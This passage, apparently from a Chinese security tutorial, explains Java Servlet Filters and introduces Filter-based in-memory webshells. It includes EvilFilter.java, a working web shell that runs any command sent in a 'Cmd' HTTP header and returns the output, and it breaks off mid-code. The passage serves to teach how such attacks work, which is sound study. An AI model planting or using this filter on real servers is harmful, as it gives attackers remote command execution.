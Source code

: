 Java 中使用 `@WebFilter` 注解来标注 Filter, urlPatterns 指定匹配规则 (参数大部分跟 `@WebServlet` 相同)

一个 Filter 实现自 Filter 接口, 并且必须实现 doFilter 方法, jdk 1.8 版本需要手动重写 init 和 destroy 方法, 高版本不需要

其中 `filterChain.doFilter(servletRequest, servletResponse)` 用于将请求传递至下一个 Filter (如果存在多个 Filter) 或 Servlet

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211031943674.png)

详情参考 [http://c.biancheng.net/servlet2/filter.html](http://c.biancheng.net/servlet2/filter.html)

这里以 Servlet Filter 型内存马的原理为例

IndexServlet.java

```java
package com.example.learnservlet;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import java.io.IOException;
import java.io.PrintWriter;

@WebServlet(name = "IndexServlet", value = "/")
public class IndexServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        response.setContentType("text/html");
        PrintWriter pw = response.getWriter();
        pw.write("hello world");
        pw.flush();
    }
}
```

EvilFilter.java

```java
package com.example.learnservlet.filters;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.*;

@WebFilter(urlPatterns = "/*")
public class EvilFilter implements Filter {
    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest request = (HttpServletRequest) servletRequest;
        HttpServletResponse response = (HttpServletResponse) servletResponse;
        response.setCharacterEncoding("utf-8");
        PrintWriter pw = response.getWriter();
        if (request.getHeader("Cmd") != null){
            String cmd = request.getHeader("Cmd");
            Process p = Runtime.getRuntime().exec(cmd);
            InputStream in = p.getInputStream();
            BufferedReader br = new BufferedReader(new InputStreamReader(in));
            String line = null;
            while((line = br.readLine()) != null){
                pw.write(line);
            }
            br.close();
            pw.write("\n");
```